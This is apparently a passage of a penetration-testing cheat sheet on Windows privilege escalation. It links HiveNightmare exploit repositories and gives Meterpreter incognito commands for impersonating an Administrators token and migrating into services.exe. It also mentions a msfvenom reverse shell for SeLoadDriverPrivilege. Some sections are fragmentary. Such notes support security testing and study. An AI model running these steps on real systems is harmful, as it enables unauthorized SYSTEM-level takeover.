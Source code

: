 ## CVE-2021-36934 (HiveNightmare)

An elevation of privilege vulnerability exists because of overly permissive Access Control Lists (ACLs) on multiple system files, including the Security Accounts Manager (SAM) database. An attacker who successfully exploited this vulnerability could run arbitrary code with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.&#x20;

[https://github.com/n3tsurge/CVE-2021-36934](https://github.com/n3tsurge/CVE-2021-36934)

[https://github.com/0x0D1n/CVE-2021-36934](https://github.com/0x0D1n/CVE-2021-36934)

## Windows XP SP0/SP1

[https://sohvaxus.github.io/content/winxp-sp1-privesc.html](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)

{% code overflow="wrap" %}
```bash
######## METASPLOIT
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

meterpreter > load incognito
# LIST AVAILABLE TOKENS
List_tokens -g
as
impersonate_token "BUILTIN\Administrators"
# Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 
# Ensure that you migrate to a process with correct permissions.
# The safest process to pick is the services.exe process. 
ps # command to view processes and find the PID of the services.exe 
migrate PID-OF-PROCESS
```
{% endcode %}

## SeEnableRestorePrivilege (Priv2admin)

RDP creds are not needed for the exploit steps

## **SeLoadDriverPrivilege**

{% code overflow="wrap" %}
```bash
From my Kali machine all-in-one-zip we have everything there, we just need to add reverse.exe from msfvenom

# If it fails, as of Windows 10 Version 1803, NTLoadDriver seems to forbid references to registry keys under HKEY_CURRENT_USER.
```
{% endcode %}
